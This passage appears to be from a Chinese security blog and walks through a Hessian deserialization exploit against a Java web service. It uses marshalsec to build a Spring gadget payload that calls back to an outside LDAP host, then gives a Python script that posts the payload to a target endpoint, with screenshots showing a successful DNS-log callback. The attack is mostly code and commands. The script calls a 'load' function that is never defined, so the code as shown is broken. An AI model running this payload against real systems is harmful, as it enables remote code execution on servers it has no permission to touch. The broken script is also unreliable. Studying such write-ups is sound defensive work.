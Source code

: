 首先生成反序列化数据

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian SpringAbstractBeanFactoryPointcutAdvisor ldap://bbshuwzyse.dgrh3.cn/  > hessian
```

编写python脚本发包

```python
import requests
import argparse

def send(url,payload):
    proxies = {'http':'127.0.0.1:8080'}
    headers={'Content-Type':'x-application/hessian'}
    data=payload
    res=requests.post(url,headers=headers,data=data,proxies=proxies)
    return res.text

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", help="hessian site url eg.http://127.0.0.1:8080/HessianTest/hessian")
    parser.add_argument("-p",help="payload file")
    args = parser.parse_args()
    if args.u==None or args.p==None:
        print('eg. python hessian.py -u http://127.0.0.1:8080/HessianTest/hessian -p hessian')
    else:
        send(args.u, load(args.p))
if __name__ == '__main__':
    main()
    #load('hessian')
```

执行命令

```php
python hessian.py -u http://127.0.0.1:8080/hessianservlet -p hessian
```

![image-20240531162213083](https://shs3.b.qianxin.com/butian_public/f96225995233113925ee8676c72191b3148d644d072d1.jpg)

dnslog成功响应

![image-20240531162118763](https://shs3.b.qianxin.com/butian_public/f5148004fbae58bd8519eb14de8c033262f5880f38a94.jpg)